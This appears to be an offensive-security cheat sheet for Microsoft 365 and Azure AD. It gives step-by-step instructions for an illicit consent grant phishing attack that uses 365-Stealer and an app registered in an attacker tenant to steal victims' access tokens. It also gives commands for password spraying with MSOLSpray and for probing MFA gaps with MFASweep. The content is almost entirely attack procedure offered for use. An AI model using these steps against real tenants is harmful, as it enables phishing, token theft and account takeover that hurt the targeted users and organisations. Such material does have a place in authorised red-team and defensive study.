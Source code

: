 ## Phishing (Illicit Consent Grant)
* https://github.com/AlteredSecurity/365-Stealer
* https://github.com/r1cksec/cheatsheets/blob/main/windows/azure-arm-api.md
* https://github.com/rvrsh3ll/TokenTactics

```
Get Access Token by creating an application in the attacker tenant and send the Authorization Link to a victim.

https://portal.azure.com > Azure Active Directory > App Registrations > New registration > Choose Name
Supported Account Types: Check - 'Accounts in any organizational directory (Any Azure AD directory - Multitenant)
Choos Web from Dropdown: Web
Redirect Uri: https://<attacker365StealerRhost>/login/authorized
Register > Certificates & Secrets > New Client Secret > Add > note: Secret ID
Api Permissions > Add a permission > Microsoft Graph > Delegated permissions
Search: user.read
Check: user.read and User.ReadBasic.All > Add permissions
Overview > note: Application (Client) ID

vim yourVictims/index.php
insert: public $ipWhitelist = array(
           '127.0.0.1',
           '<ip>',

php --ini
vim php.ini
insert:
extension=sqlite3

apt install php7.4-mbstring
systemctl restart apache2
php -S <365StealerIp>:8080
pip3 install -r requirements.txt
python 365-Stealer.py --set-config
python 365-Stealer.py --run-app
```

## Authenticated User Enumeration and Password Spraying
* https://login.Microsoft.com/common/oauth2/token
* https://github.com/dafthack/MSOLSpray

```
Invoke-MSOLSpray -UserList .\<userlist>.txt -Password <password>
```

## Identify inconsistencies in Microsoft MFA deployments
* https://github.com/dafthack/MFASweep

```
Invoke-MFWSweep -Username <user>@<domain> -Password <password>
```
